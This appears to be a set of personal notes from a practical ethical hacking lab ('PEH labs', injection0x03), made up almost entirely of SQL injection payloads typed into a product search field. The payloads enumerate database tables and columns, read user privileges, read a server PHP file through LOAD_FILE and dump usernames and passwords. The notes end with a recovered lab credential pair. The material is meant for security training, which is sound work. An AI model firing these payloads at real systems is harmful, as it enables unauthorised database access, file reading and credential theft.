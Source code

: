 
```
Senpai Knife Set' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'peh-labs-user'@'localhost'"-- -
```
```
Senpai Knife Set' UNION select 1,2,3,4-- -
```
```
Senpai Knife Set' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
```
Senpai Knife Set' UNION SELECT 1, LOAD_FILE("/var/www/html/labs/i0x03.php"), 3, 4-- -
```
```
Senpai Knife Set' UNION select 1, username, password, 4 from dev.credentials-- -
```
```
Senpai Knife Set' UNION select 1,2,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
```sql
Senpai Knife Set' UNION SELECT 1, priv, 3, 4 FROM mysql.user WHERE user="peh-labs-user"-- -
```
```
Senpai Knife Set' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
Senpai Knife Set' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

```
Senpai Knife Set' UNION select 1, username, password, 4 from injection0x03_users-- -
```

injection0x03_users
injection0x03_products

takeshi:onigirigadaisuki